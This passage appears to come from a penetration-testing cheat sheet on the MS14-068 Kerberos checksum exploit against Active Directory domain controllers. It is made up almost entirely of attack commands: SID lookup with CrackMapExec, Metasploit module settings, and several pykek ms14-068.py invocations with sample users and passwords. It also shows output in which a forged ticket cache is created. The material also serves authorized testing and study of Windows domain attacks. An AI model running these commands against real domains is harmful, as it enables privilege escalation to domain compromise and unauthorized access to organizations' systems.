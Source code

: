     ```powershell
    Convert-NameToSid high-sec-corp.localkrbtgt
    S-1-5-21-2941561648-383941485-1389968811-502
    ```
    
- CrackMapExec: `crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid`
    

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```
